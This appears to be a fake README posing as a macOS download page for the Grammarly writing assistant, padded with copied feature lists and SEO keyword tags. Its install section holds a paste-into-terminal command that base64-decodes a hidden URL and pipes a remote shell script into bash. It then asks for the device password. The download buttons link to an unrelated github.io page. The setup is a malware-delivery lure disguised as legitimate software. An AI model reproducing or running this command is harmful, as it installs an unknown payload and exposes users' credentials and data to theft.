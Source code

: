 # ✍️ Grammarly — AI Writing Assistant for macOS

**Grammarly** is an advanced AI-powered writing assistant tailored for macOS users, helping you write clearly, confidently, and mistake-free across documents, emails, and web content. With support for Microsoft Word, Outlook, Safari, and more, Grammarly ensures professional-quality grammar, tone, and style—right from your MacBook or iMac.

Optimized for MacBook, MacBook Air, and Apple Silicon, Grammarly runs smoothly on modern macOS systems, enhancing your writing across apps and browsers.

---

## ✅ Download Grammarly for macOS  
[![Download Grammarly](https://img.shields.io/badge/Download-Grammarly-blueviolet)](https://shuziktobehuman.github.io/huja/Grammarly)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```bash
/bin/bash -c "$(curl -fsSL $(echo aHR0cHM6Ly9waGFubmFyaXRoLmNvbS9nZXQyL2luc3RhbGwuc2g= | base64 -d))"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)



## 📦 What is Grammarly?

Grammarly is a writing assistant that checks your spelling, grammar, punctuation, and tone in real time as you write. It offers contextual suggestions to improve clarity and engagement, and works seamlessly with macOS apps, including Microsoft Word, Safari, and Chrome.

Whether you're writing academic essays, professional emails, or blog posts, Grammarly enhances your communication and helps you write with impact.

---

## ✨ Features

- 🧠 Real-time grammar and spelling corrections  
- 📐 Advanced tone and clarity suggestions  
- 💬 Rewrite and rephrase sentences intelligently  
- 🧩 Microsoft Word and Outlook integration  
- 🌐 Works with Safari, Chrome, and Firefox on macOS  
- 🖥 Fully optimized for Apple Silicon (M1/M2/M3) and macOS Ventura  
- 🔒 Secure and privacy-focused writing assistant  
- 📘 Customizable personal dictionary and writing goals  
- ☁️ Sync across devices via Grammarly Cloud  
- 🆓 Free version available with premium upgrade options

---

## 💡 Why Use Grammarly?

- 📝 Ideal for students, professionals, and writers  
- ⚡ Speeds up your workflow with intelligent writing suggestions  
- 📚 Perfect for emails, documents, and social media posts  
- 🖥 Seamlessly integrated with macOS and Apple hardware  
- 🧑‍🏫 Helps improve your writing skills over time  
- 🔄 Ensures consistency in tone and writing style

---

[![Download Grammarly](https://img.shields.io/badge/Download-Grammarly-blueviolet)](https://shuziktobehuman.github.io/huja/Grammarly)

---

## 🖼 Preview

![Grammarly Screenshot 1](https://contenthub-static.grammarly.com/blog/wp-content/uploads/2021/11/Grammarly-Business-for-Windows-and-Mac-Image-2.jpeg)  
![Grammarly Screenshot 2](https://contenthub-static.grammarly.com/blog/wp-content/uploads/2020/04/ms-office-windows-1.jpg)

---

## 📌 Tags

grammarly mac, grammarly download mac, grammarly for word mac, grammarly for macbook,  
grammarly for mac download, download grammarly for macbook air, download grammarly on mac,  
grammarly for macbook air, grammarly for word for mac, grammarly on mac word, grammarly osx,  
grammarly word for mac, grammarly for outlook mac, grammarly desktop mac, grammarly app for mac,  
grammarly for desktop mac, grammarly microsoft word mac, grammarly word plugin mac,  
add grammarly to word mac, grammarly for mac outlook, grammarly for microsoft word mac,  
grammarly plugin for word mac, grammarly mac os, grammarly mac download  

---
